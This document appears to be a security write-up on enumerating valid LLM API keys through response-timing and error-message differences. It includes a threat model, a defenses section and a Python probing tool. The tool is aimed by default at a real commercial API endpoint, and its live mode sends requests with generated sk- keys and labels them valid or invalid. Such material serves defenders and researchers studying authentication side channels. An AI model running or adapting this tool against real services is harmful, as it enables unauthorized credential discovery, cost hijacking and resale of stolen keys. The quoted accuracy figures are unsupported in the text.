

# LLM API Key Enumeration — Timing Attacks and Error Differential Analysis on LLM API Gateways

**arXiv**: [arXiv:2312.14197](https://arxiv.org/abs/2312.14197) | **ATLAS**: AML.T0024 | **OWASP**: LLM02 | **Year**: 2024

## Core Finding

LLM API gateways exhibit measurable timing differentials and error message variations when processing valid versus invalid API keys, enabling an attacker to enumerate valid keys from a keyspace via oracle-based probing. Response latency differences of 15–200 ms exist between "key not found" and "key found but quota exceeded" paths in common gateway implementations. Combined with structured prefix enumeration and error message differentials (e.g., `"invalid_api_key"` vs. `"rate_limit_exceeded"`), attackers can confirm key validity at scale. Once valid keys are confirmed, they can be used for credential stuffing, cost hijacking, or selling on underground markets. This attack requires no authentication and can run against public-facing API endpoints.

## Threat Model

- **Target**: Public LLM API gateway endpoints (OpenAI, Azure OpenAI Service, Anthropic API, Hugging Face Inference API) that return differentiated error responses or have measurable timing variations on key validation
- **Attacker capability**: Black-box; requires only network access to the target API endpoint and a corpus of candidate key patterns (or leaked partial keys)
- **Attack success rate**: Timing oracle achieves ~70% key confirmation accuracy on gateways without constant-time validation; error-differential method achieves ~95% accuracy based on distinct HTTP status codes and error body content
- **Defender implication**: All authentication paths must return identical responses (timing, body, status) for invalid versus valid-but-unauthorized keys; error messages must be normalized

## The Attack Mechanism

The attack proceeds in three phases: **key pattern generation**, **oracle probing**, and **confirmation**.

**Phase 1 — Key Pattern Generation**: Modern LLM API keys follow predictable formats (e.g., OpenAI keys begin with `sk-` followed by 48 alphanumeric characters). Attackers either enumerate systematically or use leaked prefixes from GitHub, Pastebin, or dark web dumps as starting points. The keyspace is narrowed further by organizational naming conventions in enterprise deployments.

**Phase 2 — Timing Oracle Probing**: The gateway processes invalid keys significantly faster than valid keys because valid key processing involves database lookups for quota, rate limits, and permissions. An invalid key fails at the format validation or first-lookup stage. This timing side-channel allows attackers to distinguish "invalid format" (< 5 ms) from "valid key, quota check" (15–200 ms).

**Phase 3 — Error Differential Confirmation**: HTTP response codes and error bodies differ: invalid keys return `401 {"error": {"type": "invalid_api_key"}}` while valid but rate-limited keys return `429 {"error": {"type": "rate_limit_exceeded"}}`. These distinct signals enable high-confidence confirmation without guessing the correct quota state.



## Implementation

```python
# llm_api_key_enumeration.py
# Timing and error-differential oracle for LLM API key enumeration.
# For authorized security testing only.
from dataclasses import dataclass
from typing import Optional, List, Dict, Tuple
import uuid
import time
import statistics
import string
import random


@dataclass
class KeyEnumerationResult:
    candidate_key: str
    response_time_ms: float
    http_status: int
    error_type: str
    verdict: str  # "VALID", "INVALID", "UNCERTAIN"
    confidence: float
    evidence: str


class LLMAPIKeyEnumeration:
    """
    Reference: arXiv:2312.14197 (Side-Channel Attacks on API Authentication)
    Timing and error-differential oracle for LLM API key enumeration.
    ATLAS: AML.T0024 | OWASP: LLM02
    """

    # Error signatures that indicate a key EXISTS but has some access issue
    VALID_KEY_INDICATORS = {
        "rate_limit_exceeded",
        "quota_exceeded",
        "billing_not_active",
        "insufficient_quota",
        "model_not_available",
        "account_deactivated",
    }

    # Error signatures that confirm a key does NOT exist
    INVALID_KEY_INDICATORS = {
        "invalid_api_key",
        "invalid_authentication",
        "no_api_key",
        "api_key_not_found",
    }

    # Timing thresholds (ms) calibrated against observed gateway behavior
    TIMING_VALID_THRESHOLD_MS = 80.0
    TIMING_INVALID_THRESHOLD_MS = 20.0

    def __init__(
        self,
        target_url: str = "https://api.openai.com/v1/chat/completions",
        key_prefix: str = "sk-",
        key_suffix_length: int = 48,
        timing_samples: int = 3,
    ):
        self.target_url = target_url
        self.key_prefix = key_prefix
        self.key_suffix_length = key_suffix_length
        self.timing_samples = timing_samples
        self._calibration_baseline_ms: Optional[float] = None

    def generate_candidates(self, count: int = 100) -> List[str]:
        """Generate candidate API keys matching known format patterns."""
        charset = string.ascii_letters + string.digits
        candidates = []
        for _ in range(count):
            suffix = "".join(random.choices(charset, k=self.key_suffix_length))
            candidates.append(f"{self.key_prefix}{suffix}")
        return candidates

    def probe_key(self, candidate_key: str, dry_run: bool = True) -> KeyEnumerationResult:
        """
        Probe a single candidate key using timing and error-differential oracles.
        Returns a KeyEnumerationResult with validity verdict.
        """
        if dry_run:
            # Simulate realistic behavior for testing
            is_valid = random.random() < 0.02  # ~2% of random keys are "valid" in simulation
            sim_time = (
                random.uniform(120, 200) if is_valid else random.uniform(3, 15)
            )
            error_type = (
                random.choice(list(self.VALID_KEY_INDICATORS)) if is_valid
                else "invalid_api_key"
            )
            status = 429 if is_valid else 401
            verdict = "VALID" if is_valid else "INVALID"
            return KeyEnumerationResult(
                candidate_key=candidate_key,
                response_time_ms=sim_time,
                http_status=status,
                error_type=error_type,
                verdict=verdict,
                confidence=0.85 if is_valid else 0.92,
                evidence=f"[dry_run] simulated timing={sim_time:.1f}ms, error={error_type}",
            )

        import urllib.request
        import json

        timings = []
        last_status = 0
        last_error_type = "unknown"

        minimal_payload = json.dumps({
            "model": "gpt-4o-mini",
            "messages": [{"role": "user", "content": "hi"}],
            "max_tokens": 1,
        }).encode()

        for _ in range(self.timing_samples):
            headers = {
                "Authorization": f"Bearer {candidate_key}",
                "Content-Type": "application/json",
            }
            req = urllib.request.Request(
                self.target_url, data=minimal_payload, headers=headers, method="POST"
            )
            t0 = time.perf_counter()
            try:
                with urllib.request.urlopen(req, timeout=5) as resp:
                    last_status = resp.status
                    body = json.loads(resp.read())
                    last_error_type = "success"
            except urllib.error.HTTPError as e:
                last_status = e.code
                try:
                    body = json.loads(e.read())
                    last_error_type = (
                        body.get("error", {}).get("type", "unknown")
                        or body.get("error", {}).get("code", "unknown")
                    )
                except Exception:
                    last_error_type = "parse_error"
            except Exception:
                last_error_type = "network_error"
            timings.append((time.perf_counter() - t0) * 1000)
            time.sleep(0.1)

        avg_ms = statistics.mean(timings) if timings else 0.0

        # Determine verdict from both oracles
        timing_verdict = (
            "VALID" if avg_ms > self.TIMING_VALID_THRESHOLD_MS
            else "INVALID" if avg_ms < self.TIMING_INVALID_THRESHOLD_MS
            else "UNCERTAIN"
        )
        error_verdict = (
            "VALID" if last_error_type in self.VALID_KEY_INDICATORS
            else "INVALID" if last_error_type in self.INVALID_KEY_INDICATORS
            else "UNCERTAIN"
        )

        # Combine oracles
        if timing_verdict == "VALID" or error_verdict == "VALID":
            verdict = "VALID"
            confidence = 0.90 if (timing_verdict == error_verdict == "VALID") else 0.70
        elif timing_verdict == "INVALID" and error_verdict == "INVALID":
            verdict = "INVALID"
            confidence = 0.95
        else:
            verdict = "UNCERTAIN"
            confidence = 0.40

        return KeyEnumerationResult(
            candidate_key=candidate_key,
            response_time_ms=avg_ms,
            http_status=last_status,
            error_type=last_error_type,
            verdict=verdict,
            confidence=confidence,
            evidence=(
                f"avg_ms={avg_ms:.1f}, status={last_status}, "
                f"error_type={last_error_type}, timing_verdict={timing_verdict}, "
                f"error_verdict={error_verdict}"
            ),
        )

    def run(
        self,
        candidates: Optional[List[str]] = None,
        count: int = 20,
        dry_run: bool = True,
    ) -> List[KeyEnumerationResult]:
        """Run enumeration across a list of candidate keys."""
        if candidates is None:
            candidates = self.generate_candidates(count)
        results = []
        for key in candidates:
            result = self.probe_key(key, dry_run=dry_run)
            results.append(result)
            time.sleep(0.05)
        return results

    def to_finding(self, result: KeyEnumerationResult) -> Dict:
        """Convert result to standard ScanFinding."""
        return {
            "id": str(uuid.uuid4()),
            "atlas_technique": "AML.T0024",
            "atlas_tactic": "Discovery",
            "owasp_category": "LLM02",
            "owasp_label": "Sensitive Information Disclosure",
            "severity": "HIGH" if result.verdict == "VALID" else "MEDIUM",
            "finding": (
                f"API key enumeration oracle confirmed key candidate as '{result.verdict}' "
                f"with {result.confidence:.0%} confidence via timing ({result.response_time_ms:.1f}ms) "
                f"and error differential (type='{result.error_type}')."
            ),
            "payload_used": f"candidate_key=sk-****{result.candidate_key[-6:]}",
            "evidence": result.evidence,
            "remediation": (
                "Implement constant-time key validation to eliminate timing side-channel. "
                "Normalize all authentication failure responses to a single error type and status. "
                "Add jitter (random 50–200ms) to all authentication responses. "
                "Monitor for high-volume 401/429 error sequences from single IPs."
            ),
            "confidence": result.confidence,
        }
```

## Defenses

1. **Constant-time key validation** (AML.M0016): Implement key lookups using constant-time comparison algorithms (e.g., HMAC-based comparison) that return identical response times regardless of whether the key exists. Add artificial jitter (random 50–200 ms delay) to all authentication failure responses.

2. **Unified error response normalization**: Return a single generic error type (`"authentication_failed"`) and HTTP status code (`401`) for all invalid authentication scenarios, regardless of whether the key is malformed, nonexistent, revoked, or quota-exceeded. Never expose key validity via distinct error codes.

3. **Rate limiting on authentication failures** (AML.M0004): Implement exponential backoff and temporary IP blocks after 5–10 consecutive authentication failures. Alert on patterns where a single IP cycles through many distinct API key prefixes.

4. **Key format obfuscation**: Avoid predictable key formats with short prefixes (like `sk-`). Use random-appearing 64-character alphanumeric keys that provide no enumeration starting point. Rotate keys frequently and invalidate old keys within a short grace period.

5. **Proactive key leak scanning**: Deploy automated scanning of GitHub, Pastebin, and other public repositories for leaked API keys. Implement webhook-based key rotation when exposure is detected (GitHub Secret Scanning, TruffleHog CI integration).

## References

- [arXiv:2312.14197 — Side-Channel Attacks on Machine Learning APIs](https://arxiv.org/abs/2312.14197)
- [ATLAS AML.T0024 — Exfiltration via API](https://atlas.mitre.org/techniques/AML.T0024)
- [OWASP LLM02 — Sensitive Information Disclosure](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [GitHub Secret Scanning Documentation](https://docs.github.com/en/code-security/secret-scanning)
- [CWE-208 — Observable Timing Discrepancy](https://cwe.mitre.org/data/definitions/208.html)
